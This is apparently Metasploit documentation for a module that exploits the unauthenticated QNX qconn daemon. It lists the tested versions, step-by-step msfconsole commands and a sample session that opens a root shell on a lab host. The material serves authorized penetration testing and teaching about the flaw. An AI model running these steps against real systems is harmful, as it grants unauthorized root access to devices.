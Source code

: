 ## Description

  This module uses the qconn daemon on [QNX](http://www.qnx.com/)
  systems to gain a shell.

  The QNX qconn daemon does not require authentication and allows
  remote users to execute arbitrary operating system commands.


## Vulnerable Application

  The QNX qconn daemon is a service provider that provides support,
  such as profiling system information, to remote IDE components.

  This module has been tested successfully on:

  * QNX Neutrino 6.5.0 (x86)
  * QNX Neutrino 6.5.0 SP1 (x86)

  QNX Neutrino 6.5.0 Service Pack 1 is available here:

  * http://www.qnx.com/download/feature.html?programid=23665


## Verification Steps

  1. Start `msfconsole`
  2. `use exploit/unix/misc/qnx_qconn_exec`
  3. `set rhost <IP>`
  4. `set rport <PORT>`
  5. `run`
  6. You should get a session


## Scenarios


  ```
  msf5 > use exploit/unix/misc/qnx_qconn_exec 
  msf5 exploit(unix/misc/qnx_qconn_exec) > set rhost 172.16.191.215
  rhost => 172.16.191.215
  msf5 exploit(unix/misc/qnx_qconn_exec) > set rport 8000
  rport => 8000
  msf5 exploit(unix/misc/qnx_qconn_exec) > run

  [*] 172.16.191.215:8000 - Sending payload...
  [+] 172.16.191.215:8000 - Payload sent successfully
  [*] Found shell.
  [*] Command shell session 1 opened (172.16.191.188:33641 -> 172.16.191.215:8000) at 2018-03-21 00:19:37 -0400


  0oxdgl2UgHIvCYBO
  # id
  id
  uid=0(root) gid=0(root)
  # uname -a
  uname -a
  QNX localhost 6.5.0 2012/06/20-13:50:50EDT x86pc x86
  ```

